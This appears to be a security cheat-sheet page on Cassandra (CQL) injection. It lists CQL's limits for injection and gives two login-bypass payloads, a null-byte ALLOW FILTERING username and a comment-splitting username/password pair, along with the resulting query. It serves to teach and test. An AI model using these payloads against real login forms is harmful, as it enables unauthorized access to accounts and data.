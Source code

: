 # Cassandra Injection

> Apache Cassandra is a free and open-source distributed wide column store NoSQL database management system.

## Summary

* [CQL Injection Limitations](#cql-injection-limitations)
* [Cassandra Comment](#cassandra-comment)
* [Cassandra Login Bypass](#cassandra-login-bypass)
    * [Example #1](#example-1)
    * [Example #2](#example-2)
* [References](#references)

## CQL Injection Limitations

* Cassandra is a non-relational database, so CQL doesn't support `JOIN` or `UNION` statements, which makes cross-table queries more challenging.

* Additionally, Cassandra lacks convenient built-in functions like `DATABASE()` or `USER()` for retrieving database metadata.

* Another limitation is the absence of the `OR` operator in CQL, which prevents creating always-true conditions; for instance, a query like `SELECT * FROM table WHERE col1='a' OR col2='b';` will be rejected.

* Time-based SQL injections, which typically rely on functions like `SLEEP()` to introduce a delay, are also difficult to execute in CQL since it doesn’t include a `SLEEP()` function.

* CQL does not allow subqueries or other nested statements, so a query like `SELECT * FROM table WHERE column=(SELECT column FROM table LIMIT 1);` would be rejected.

## Cassandra Comment

```sql
/* Cassandra Comment */
```

## Cassandra Login Bypass

### Example #1

```sql
username: admin' ALLOW FILTERING; %00
password: ANY
```

### Example #2

```sql
username: admin'/*
password: */and pass>'
```

The injection would look like the following SQL query

```sql
SELECT * FROM users WHERE user = 'admin'/*' AND pass = '*/and pass>'' ALLOW FILTERING;
```

## References

* [Cassandra injection vulnerability triggered - DATADOG - January 30, 2023](https://docs.datadoghq.com/fr/security/default_rules/appsec-cass-injection-vulnerability-trigger/)
* [Investigating CQL injection in Apache Cassandra - Mehmet Leblebici - December 2, 2022](https://www.invicti.com/blog/web-security/investigating-cql-injection-apache-cassandra/)
